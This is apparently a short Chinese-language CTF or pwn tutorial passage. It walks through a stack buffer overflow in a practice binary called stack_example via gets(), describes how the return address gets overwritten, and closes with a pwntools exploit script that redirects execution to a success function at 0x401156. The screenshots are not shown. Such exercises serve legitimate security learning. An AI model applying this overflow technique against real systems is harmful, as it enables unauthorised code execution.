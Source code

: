 ![image-20231023213051297](images/5.png)

当执行到gets函数的时候，先看看栈长什么样子

![image-20231023213134025](images/6.png)

执行gets输入字符串，当输入很长的字符串时，观察栈的变化

![image-20231023215038105](images/7.png)

可以看到最后ret的地址变成了a的ascii（因为我都输入的a）

在IDA中找到了success函数地址

所以构造exp

```
from pwn import *
p = process("./stack_example")

payload = b'a'*0xC + b'A' * 0x8 + p64(0x401156)

p.sendline(payload)
p.interactive()
```
